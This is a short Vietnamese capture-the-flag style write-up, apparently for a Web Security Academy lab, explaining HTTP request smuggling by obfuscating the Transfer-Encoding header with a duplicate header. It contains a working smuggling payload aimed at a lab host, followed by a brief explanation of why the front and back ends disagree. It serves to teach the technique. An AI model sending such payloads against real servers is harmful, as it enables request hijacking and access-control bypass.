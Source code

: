 ## HTTP request smuggling, obfuscating the TE header

1. Ở lab này, cả 2 phía FE và BE đều xử lý TE header. Tiến hành bypass bằng duplicate header
- Payload: 
```
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cuong

67
GPOST / HTTP/1.1
HOST: 0a2500d6036339b4c018f92100e5007b.web-security-academy.net
Content-Length: 15

0


```

![image](https://user-images.githubusercontent.com/80744099/226584819-8135c5c2-3191-4712-8f93-e779df5abbae.png)

2. Tuy ở đây 2 phía đều xử lý message body bằng TE header nhưng việc xử lý duplicate header lại khác nhau. Có thể là phía FE nhận giá trị đầu tiên, còn phía BE lại lấy header cuối cũng, trong trường hợp này giá trị `cuong` không xác định trong trường `Transfer-Encoding` nên có thể BE server tiến hành xử lý theo Content-Length. 
